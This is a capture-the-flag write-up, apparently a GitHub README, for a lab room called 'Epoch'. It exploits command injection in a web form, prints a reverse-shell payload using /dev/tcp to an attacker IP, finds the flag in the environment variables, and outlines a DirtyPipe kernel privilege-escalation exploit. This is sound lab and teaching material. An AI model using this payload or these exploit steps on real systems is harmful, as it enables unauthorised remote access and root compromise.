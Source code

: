<h1>writeup-Epoch</h1>
In this writeup, i will include all the steps i took to solve the room.
<img src="./img/logo.png" alt="logo" width="700">
<blockquote><h3>
    The room description suggests tha there is a vulnerable WebApplication and also asking us to check out another room related to <code>Command Injection</code>.
</h3></blockquote>

<ol>
    <li>
        <strong>Step 1 :</strong>
        <ul>
            Check out the WebApplication.<br>
            <img src="./img/webPage.png" alt="webPage" width="500"><br>
        </ul>
    </li><br>
    <li>
        <strong>Step 2 :</strong>
        <ul>
            Let's try Command Injection in the input field from <a href="https://book.hacktricks.xyz/pentesting-web/command-injection">hacktricks</a>.
            <img src="./img/webPage2.png" alt="webPage2" width="500"><br>
            It works.
        </ul>
    </li><br>
    <li>
        <strong>Step 3 :</strong>
        <ul>
            Let's get a reverse shell by using this payload -> <code>|| sh -i >& /dev/tcp/YourIP/1234 0>&1</code>. <br>
            <img src="./img/shell.png" alt="shell">
        </ul>
    </li><br>
    <li>
        <strong>Step 4 :</strong>
        <ul>
            Try to find user.txt and flag.txt using <code>find</code> command.<br>
            <Strong>FAILED!</Strong><br>
            Maybe the only flag we get is the root flag.
        </ul>
    </li><br>
    <h2>Get root</h2>
    <li>
        <strong>Step 5 :</strong>
        <ul>
            <code>sudo -l</code><br>
            <code>sh: 1: sudo: not found</code>
        </ul>
    </li><br>
    <li>
        <strong>Step 6 :</strong>
        <ul>
            <code>crontab</code><br>
            <code>cat: /etc/crontab: No such file or directory</code>
        </ul>
    </li><br>
    <li>
        <strong>Step 7 :</strong>
        <ul>
            <code>env</code><br>
            Found the flag.......<br>
            I might have left the room since i already have the flag but i want to see if i can get root.
        </ul>
    </li>
    <li>
        <strong>Step 8 :</strong>
        <ul>
            <code>uname -a</code><br>
            Linux kernel version 5. <br>
            This might be vulnerable to <code>DirtyPipe exploit</code>.<br>
            It's a 3 step process to execute this exploit.
            <ol>
                <li>
                    Download <a href="https://www.exploit-db.com/exploits/50808">DirtyPipe</a> exploit code on your local machine.
                </li>
                <li>
                    Start python server on your machine and download the exploit on target machine in <code>/tmp</code> directory.
                </li>
                <li>
                    Compile and execute the executable using <code>gcc</code>.
                </li>
                <img src="./img/root.png" alt="root">
            </ol>
        </ul>
    </li><br>
    